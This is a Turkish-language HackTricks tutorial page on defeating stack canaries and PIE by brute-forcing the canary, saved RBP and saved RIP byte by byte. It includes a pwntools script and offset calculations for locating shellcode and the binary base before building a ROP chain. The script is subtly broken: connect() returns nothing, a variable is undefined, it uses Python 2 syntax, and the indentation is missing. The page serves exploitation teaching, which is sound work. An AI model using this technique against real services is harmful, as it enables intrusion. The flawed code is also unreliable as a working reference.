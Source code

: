 # Yığın İçindeki BF Adresleri

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Eğer bir canary ve PIE (Pozisyona Bağımsız İkili) ile korunmuş bir ikili ile karşılaşıyorsanız, bunları aşmanın bir yolunu bulmanız gerekecektir.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`** bir ikilinin canary ile korunduğunu bulamayabilir, eğer bu statik olarak derlenmişse ve fonksiyonu tanımlama yeteneği yoksa.\
Ancak, bir fonksiyon çağrısının başında yığında bir değerin kaydedildiğini ve bu değerin çıkmadan önce kontrol edildiğini bulursanız, bunu manuel olarak fark edebilirsiniz.
{% endhint %}

## Brute-Force Adresleri

PIE'yi aşmak için **bazı adresleri sızdırmanız** gerekiyor. Ve eğer ikili herhangi bir adres sızdırmıyorsa, en iyi yol, **savunmasız fonksiyondaki yığında kaydedilen RBP ve RIP'yi brute-force yapmaktır.**\
Örneğin, bir ikili hem **canary** hem de **PIE** kullanılarak korunuyorsa, önce canary'yi brute-force yapmaya başlayabilirsiniz, ardından **sonraki** 8 Byte (x64) kaydedilen **RBP** ve **sonraki** 8 Byte kaydedilen **RIP** olacaktır.

{% hint style="success" %}
Yığında bulunan dönüş adresinin ana ikili koduna ait olduğu varsayılmaktadır; bu, eğer zafiyet ikili kodda yer alıyorsa genellikle böyle olacaktır.
{% endhint %}

İkili dosyadan RBP ve RIP'yi brute-force yapmak için, program bir şey çıktığında veya sadece çökmediğinde geçerli bir tahmin edilen byte'ın doğru olduğunu anlayabilirsiniz. **Canary'yi brute-force yapmak için sağlanan** aynı fonksiyon, RBP ve RIP'yi brute-force yapmak için de kullanılabilir:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
PIE'yi yenmek için son şey, **sızan** adreslerden **yararlı adresleri** hesaplamaktır: **RBP** ve **RIP**.

**RBP**'den, **yığın içinde shell'inizi nereye yazdığınızı** hesaplayabilirsiniz. Bu, yığın içinde _"/bin/sh\x00"_ dizesini nereye yazacağınızı bilmek için çok yararlı olabilir. Sızan RBP ile shellcode'unuz arasındaki mesafeyi hesaplamak için, **RBP'yi sızdırdıktan sonra bir kesme noktası koyabilir** ve **shellcode'unuzun nerede bulunduğunu** kontrol edebilirsiniz; ardından, shellcode ile RBP arasındaki mesafeyi hesaplayabilirsiniz:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**'ten **PIE ikili dosyasının temel adresini** hesaplayabilirsiniz, bu da **geçerli bir ROP zinciri** oluşturmak için gerekecek.\
Temel adresi hesaplamak için sadece `objdump -d vunbinary` komutunu çalıştırın ve en son adresleri kontrol edin:

![](<../../../../.gitbook/assets/image (145).png>)

Bu örnekte, tüm kodu bulmak için sadece **1 Byte ve yarım** gerektiğini görebilirsiniz, bu durumda temel adres **sızdırılan RIP ama "000" ile biten** olacaktır. Örneğin, `0x562002970ecf` sızdırdıysanız, temel adres `0x562002970000`'dır.
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
